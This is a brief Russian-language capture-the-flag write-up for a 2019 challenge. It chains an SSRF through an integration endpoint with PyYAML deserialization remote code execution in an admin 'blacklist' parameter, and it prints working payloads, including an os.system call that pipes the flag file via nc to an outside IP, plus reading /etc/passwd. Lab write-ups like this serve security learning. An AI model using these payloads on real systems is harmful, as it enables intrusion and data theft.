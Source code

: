 1. Смотрим, какие проверки делает сайт и направляем его на наш сервер http://b121.ctf2019.rocks/integration/89.163.129.121:9999. 
Видим, что он отправляет  {"key": "test_key", "value": "test_value"} и проверяет value. Запускаем  
```
value while true; do echo -e "HTTP/1.1 200 OK\n\n  test_value" | nc -l -v -p 9999 -q 1;done
```
на 89.163.129.121 и получаем 1-й флаг.

2. Видим, что запросы через http://b121.ctf2019.rocks/integration/ на закрытый порт падают с ошибкой из  urllib3 
питона.

3. Находим адимнку. Проверям как сайт реагирует на параметры в  http://localhost/admin/?blacklist= . Видим, что он падает с 500
ошибкой про несбалансированных кавычках. Поиск по python remote code execution привел к уязвимости в  pyyaml. 
Передаем http://localhost/admin/?blacklist=!!python/object/apply:os.system ["sleep 5"] и подтверждаем уязвимость. 
Достаем флаг в http://localhost/admin/?blacklist=!!python/object/apply:os.system [" cat flag | nc 89.163.129.121:9999"]
Находим дополнительные флаги в ./integration.db  и /etc/passwd
